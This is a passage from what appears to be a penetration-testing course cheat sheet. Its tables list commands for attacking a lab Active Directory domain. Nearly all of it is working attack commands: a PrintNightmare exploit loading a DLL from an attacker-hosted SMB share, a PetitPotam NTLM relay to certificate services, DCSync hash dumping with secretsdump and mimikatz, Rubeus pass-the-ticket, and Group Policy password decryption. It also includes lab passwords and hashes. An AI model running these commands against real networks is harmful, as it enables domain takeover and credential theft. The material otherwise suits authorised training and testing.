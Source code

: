 | `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll` | Used to create an SMB server and host a shared folder (CompData) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host. |
| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host. |


##PetitPotam
| Command | Description |
|---------|-------------|
| `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | Impacket tool used to create an NTLM relay by specifying the web enrollment URL for the Certificate Authority host. Performed from a Linux-based host. |
| `git clone https://github.com/topotam/PetitPotam.git` | Used to clone the PetitPotam exploit using git. Performed from a Linux-based host. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | Used to execute the PetitPotam exploit by specifying the IP address of the attack host (172.16.5.255) and the target Domain Controller (172.16.5.5). Performed from a Linux-based host. |
| `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache` | Uses gettgtpkinit.py to request a TGT ticket for the Domain Controller (dc01.ccache) from a Linux-based host. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | Impacket tool used to perform a DCSync attack and retrieve one or all of the NTLM password hashes from the target Windows domain. Performed from a Linux-based host. |
| `klist` | krb5-user command used to view the contents of the ccache file. Performed from a Linux-based host. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$` | Used to submit TGS requests using getnthash.py from a Linux-based host. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | Impacket tool used to extract hashes from NTDS.dit using a DCSync attack and a captured hash (-hashes). Performed from a Linux-based host. |
| `.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /<base64 certificate>=/ptt` | Uses Rubeus to request a TGT and perform a pass-the-ticket attack using the machine account (/user:ACADEMY-EA-DC01$) of a Windows target. Performed from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt` | Performs a DCSync attack using Mimikatz. Performed from a Windows-based host. |


##Miscellaneous Misconfigurations
| Command | Description |
|---------|-------------|
| `Import-Module .\SecurityAssessment.ps1` | Used to import the module Security Assessment.ps1. Performed from a Windows-based host. |
| `Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | SecurityAssessment.ps1 based tool used to enumerate a Windows target for MS-PRN Printer bug. Performed from a Windows-based host. |
| `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5` | Used to resolve all records in a DNS zone over LDAP from a Linux-based host. |
| `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r` | Used to resolve unknown records in a DNS zone by performing an A query (-r) from a Linux-based host. |
| `Get-DomainUser * | Select-Object samaccountname,description` | PowerView tool used to display the description field of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol` | PowerView tool used to check for the PASSWD_NOTREQD setting of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts` | Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host. |


##Group Policy Enumeration & Attacks
| Command | Description |
|---------|-------------|
| `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE` | Tool used to decrypt a captured group policy preference password from a Linux-based host. |
| `crackmapexec smb -L \| grep gpp` | Locates and retrieves a group policy preference password using CrackMapExec, then filters the output using grep. Performed from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin` | Locates and retrieves any credentials stored in the SYSVOL share of a Windows target using CrackMapExec from a Linux-based host. |
| `Get-DomainGPO \| select displayname` | PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host. |
| `Get-GPO -All \| Select DisplayName` | PowerShell cmd-let used to enumerate GPO names. Performed from a Windows-based host. |
| `$sid=Convert-NameToSid "Domain Users"` | Creates a variable called $sid that is set equal to the Convert-NameToSid tool and specifies the group account Domain Users. Performed from a Windows-based host. |
| `Get-DomainGPO \| Get-ObjectAcl \| ?{$_.SecurityIdentifier -eq $sid` | PowerView tool that is used to check if the Domain Users (eq $sid) group has any rights over one or more GPOs. Performed from a Windows-based host. |
| `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532` | PowerShell cmd-let used to display the name of a GPO given a GUID. Performed from a Windows-based host. |
